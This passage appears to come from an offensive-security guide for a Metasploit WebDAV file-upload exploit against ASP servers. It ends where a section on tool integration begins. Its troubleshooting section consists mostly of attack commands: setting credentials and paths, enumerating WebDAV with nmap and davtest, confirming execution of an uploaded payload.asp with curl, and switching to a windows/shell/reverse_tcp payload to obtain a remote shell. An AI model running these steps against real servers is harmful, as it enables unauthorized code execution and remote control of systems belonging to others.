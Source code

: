 
## ⚠️ Common Issues & Troubleshooting

### Issue 1: Authentication Failure
```bash
# Problem symptoms
[!] Authentication failed: 401 Unauthorized

# Solution: Verify credentials
set HttpUsername correct_username
set HttpPassword correct_password
```

### Issue 2: Path Not Found
```bash
# Problem symptoms
[!] 404 Not Found - WebDAV path does not exist

# Solution: Verify WebDAV path
nmap --script http-enum target
set PATH /webdav/
```

### Issue 3: Upload Restrictions
```bash
# Problem symptoms
[!] Upload failed - file restrictions in place

# Diagnostic: Check file extensions allowed
davtest -auth user:pass -url http://target/webdav

# Alternative: Try different file extensions
set PATH /webdav/payload.txt
```

### Issue 4: Payload Execution Failure
```bash
# Problem symptoms
[!] Payload uploaded but no session created

# Verification: Check if ASP execution is enabled
curl http://target/webdav/payload.asp

# Alternative payload
set payload windows/shell/reverse_tcp
```

---

## 🔗 Integration with Other Tools
